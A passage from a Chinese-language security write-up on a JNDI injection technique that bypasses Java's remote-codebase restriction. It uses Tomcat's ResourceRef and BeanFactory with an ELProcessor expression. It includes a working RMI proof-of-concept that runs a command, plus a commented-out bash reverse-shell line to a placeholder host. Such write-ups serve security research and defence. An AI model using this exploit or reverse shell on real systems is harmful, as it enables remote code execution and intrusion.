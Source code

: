 传入的 `Reference`为 `ResourceRef` 类，后面通过反射的方式实例化 `Reference` 所指向的任意 `Bean Class`，调用 `setter` 方法为所有的属性赋值，该 `Bean Class` 的类名、属性、属性值，全都来自于 `Reference` 对象。`ResourceRef`构造器的第七个参数`factoryLocation`是远程加载`factory`的地址，比如是一个`url`,这里将其设置为`null`,达到绕过`ConfigurationException`限制。

#### [poc](#toc_poc)

```bash
public class bypass {
    public static void main(String args[]) {
        try {
            Registry registry = LocateRegistry.createRegistry(1099);
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
            ref.add(new StringRefAddr("forceString", "x=eval"));
            // ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['bash','-c','bash -i >& /dev/tcp/ip/port 0>&1']).start()\")"));
           ref.add(new StringRefAddr("x", "Runtime.getRuntime().exec(\"open -a Calculator.app\")"));

            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
            registry.bind("calc", referenceWrapper);
            System.err.println("Server ready");
        } catch (Exception e) {
            System.err.println("Server exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```

`org.apache.naming.ResourceRef` 在 `tomcat` 中表示某个资源的引用，其构造函数参数如下：

```bash
/**
    * Resource Reference.
    *
    * @param resourceClass Resource class
    * @param description Description of the resource
    * @param scope Resource scope
    * @param auth Resource authentication
    * @param singleton Is this resource a singleton (every lookup should return
    *                  the same instance rather than a new instance)?
    * @param factory The possibly null class name of the object's factory.
    * @param factoryLocation The possibly null location from which to load the
    *                        factory (e.g. URL)
    */
public ResourceRef(String resourceClass, String description,
                    String scope, String auth, boolean singleton,
                    String factory, String factoryLocation) {
                        //...
                    }
```
